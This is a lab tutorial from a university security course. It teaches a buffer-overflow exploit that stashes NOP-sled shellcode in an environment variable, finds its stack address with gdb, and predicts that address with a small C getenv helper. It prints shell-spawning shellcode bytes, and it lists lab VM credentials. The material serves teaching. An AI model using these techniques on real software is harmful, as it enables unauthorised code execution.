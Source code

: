 Tutorial: Exploit using the Environment
=======================================

Requirements
------------

Download the Kali VM from this link (Same than NFS - Metasploitable)

.. centered:: https://transvol.sgsi.ucl.ac.be/download.php?id=cdb293424a0498c7

| Working directory: ``~/SecurityClass/Tutorial-Extra``
| Connection:

============ ============
**username** **password**
============ ============
admin        nimda
============ ============


--------------

In the previous tutorials, we have seen how to exploit a buffer-overflow
vulnerability by injecting shellcode directly into the buffer and
overwriting the stack.

Sometimes we won't have the luxury to have a buffer long enough for our
shellcodes. Indeed some shellcodes are more complex and can be up to 100
bytes long without the NOP sled and the return address.

To solve this issue we can stash our shellcode somewhere else in memory.

While executing a program, the environment variables will be pushed on
the stack so they can be accessed while the program is running. It seems
like a perfect place to put some shellcode if we can find where in
memory it sits.

Adding environment variable
---------------------------

The first step is to create an env variable that contains our shellcode.
We will first try with some dummy text, eg 'test', and see if we can see
where it sits in memory.

This can be easily done with the ``export`` command :

.. code:: console

   $ export MYVAR=hacked
   $ echo $MYVAR
   hacked

We can list the environment variables with the ``env`` command :

.. code:: console

   $ env
   SHELL=/bin/bash
   MYVAR=hacked
   PWD=/home/kali/Documents/Security/LINGI2144-2020-2022/env-variable
   LOGNAME=kali
   XDG_SESSION_TYPE=tty
   HOME=/home/kali
   LANG=en_US.UTF-8
   LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
   SSH_CONNECTION=10.0.2.2 51744 10.0.2.15 22
   XDG_SESSION_CLASS=user
   TERM=xterm-256color
   USER=kali
   SHLVL=1
   XDG_SESSION_ID=5
   XDG_RUNTIME_DIR=/run/user/1000
   SSH_CLIENT=10.0.2.2 51744 22
   PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
   DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
   SSH_TTY=/dev/pts/1
   OLDPWD=/home/kali/Documents/Security/LINGI2144-2020-2022/shellcodes
   _=/usr/bin/env

We can find our variable on the second line.

Of course we can also put some shellcode in an environment variable. We
can use ``$(cat ...)``\ to append our shellcode binary to a variable
like this :

.. code:: console

   $ export SHELLCODE=$(cat shellcode.bin)
   $ echo $SHELLCODE
   1?1?1ə??̀j
            XQh//shh/bin??Q??S??̀

❓ **This shellcode does not have a NOP sled so it would be hard to hit the
right address. Add some NOP before your shellcode and save it in the**
``$SHELLCODE`` **variable.**

Great we now need to find where in memory this shellcode is located. We
can run our exploit program in ``gdb`` to inspect the stack.

❓ **Run the program on gdb, break at main, inspect the stack and find your
env variable.**

.. hint::  **💡 To inspect strings use** ``x/24s`` **instead of** ``x/**wx``.

.. hint::  **💡 The environment variables are at a higher address so you might
           need to add some offset to the stack pointer.**


.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_1">
          <div class="panel panel-primary">
        <div class="panel-body">

.. code:: console

   $ gdb -q exploit
   (gdb) b main
   (gdb) run AAAA
   Breakpoint 1, 0x00401216 in main ()
   (gdb) i r esp
   esp            0xbffff4b4          0xbffff4b4
   (gdb) x/24s $esp + 0x240
   0xbffff624:   "A"
   0xbffff626:   "SHELL=/bin/bash"
   0xbffff636:   "SHELLCODE=", '\220' <repeats 190 times>...
   0xbffff6fe:   "\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"
   0xbffff72c:   "MYVAR=hacked"
   0xbffff739:   "PWD=/home/kali/Documents/Security/LINGI2144-2020-2022/env-variable"
   0xbffff77c:   "LOGNAME=kali"
   [...]

.. raw:: html

         </div>
      </div>
   </div>

Now that you have located your variable you can pick an address in the
middle of your NOP sled. For me a suitable address is : ``0xbffff69a``

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_2">
          <div class="panel panel-primary">
        <div class="panel-body">

Once you have your variable address you can go to the middle of the sled
by adding an offset.

.. code:: console

   (gdb) x/s 0xbffff636
   0xbffff636:   "SHELLCODE=", '\220' <repeats 190 times>...
   (gdb) x/s 0xbffff636 + 100
   0xbffff69a:   '\220' <repeats 110 times>, "\061\300\061\333\061ə\260\244̀j\vXQh//shh/bin\211\343Q\211\342S\211\341̀"

``0xbffff69a`` will be my address.

.. raw:: html

         </div>
      </div>
   </div>

So if we run our vulnerable program with the address of our shellcode
repeated in a large amount we should hit the ``EIP``\ and execute our
shellcode.

❓ **Spawn a shell using the environment variable.**


.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '<script type="text/javascript">',
                     'updateSol("tp1_0_1 tp1_0_2",".tp1_s0","adding-environment-variable");',
                  '</script>';
            include "../_static/solution.html";
         }
   ?>

Go even further
---------------

That's cool but that's a bit trivious because we still need to guess the
shellcode's address. Hopefully there is a system call that will help us
great time by giving us the address of the environment variable at
runtime : ``getenv`` !

❓ **Write a small piece of C code that takes an environment variable as
input and prints its address.**

Eg :

.. code:: console

   $ ./getenv SHELLCODE
   SHELLCODE is at 0xbffff636

When you got your little helper you can check if the exploit still works
with the given address.

❓ **Exploit the vulnerable program using the given address.**

Sledless
~~~~~~~~

That's good but our shellcode is still a bit long with all those NOP ops
at the beginning so let's try to remove them !

❓ **Put into** ``SLEDLESS`` **your shellcode without NOP sled.**

❓ **Use your helper to fetch the address of** ``SLEDLESS`` **and try to spawn a
shell.**

Whoops it seems the address is not correct anymore. We should try to
investigate what could cause the address to change when running another
program (the helper).

❓ **Change the name of your helper binary and fetch the address of the
shellcode. Try different lengths for example.**

❓ **Try to found a pattern between the addresses that you get.**

.. raw:: html

   <div class="collapse tp1_s2" id="tp1_1_1">
          <div class="panel panel-primary">
        <div class="panel-body">

.. code:: console

   $ cp a.out a
   $ ./a SLEDLESS
   SLEDLESS will be at 0xbffffea1
   $ cp a.out bb
   $ ./bb SLEDLESS
   SLEDLESS will be at 0xbffffe9f
   $ cp a.out ccc
   $ ./ccc SLEDLESS
   SLEDLESS will be at 0xbffffe9d

If you look closely you can see that when we make the name of the
program longer, the address decreases. Between ``./ccc`` and ``./bb`` we
got ``0xbffffe9f - 0xbffffe9d = 2 bytes`` and the same amount between
``./bb`` and ``./a``. It looks like we decrease the address by two bytes
for every additionnal char in the program name.

.. raw:: html

         </div>
      </div>
   </div>

When you think you found the pattern you can edit your previously used
helper to predict the right address of the shellcode.

❓ **Write a C program that successfully predict the shellcode's address.**

.. hint::  **💡 It might seem a bit hard so here are the steps if you are stuck :**

.. raw:: html

   <div class="collapse tp1_s2" id="tp1_1_2">
          <div class="panel panel-primary">
        <div class="panel-body">


-  store the address of the shellcode in a pointer

-  compute the difference of length between your helper program name and
   your vulnerable program name

-  multiply the difference with the pattern you found previously

-  add the result to your shellcode address.

**Explanation** When we fetch the shellcode's address from our helper
program (let's say ``./getenvaddr``) we first need to remove the length
of this program name from the shellcode's address. Then we need to add
the length of our vulnerable program name.

.. code:: C

   char *ptr;
   ptr = getenv(argv[1]);
   ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
   /**               │                 │        │
   *            ./getenvaddr      ./exploit   pattern
   *              12 bytes          9 bytes   2 bytes
   *                 └────────┬────────┘        │
   *                       3 bytes              │
   *                          └────────┬────────┘
   *                                6 bytes
   */

.. raw:: html

         </div>
      </div>
   </div>

❓ **Spawn a shell using the predicted shellcode's address.**

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '<script type="text/javascript">',
                     'updateSol("tp1_2_1 tp1_2_2",".tp1_s2","sledless");',
                  '</script>';
            include "../_static/solution.html";
         }
   ?>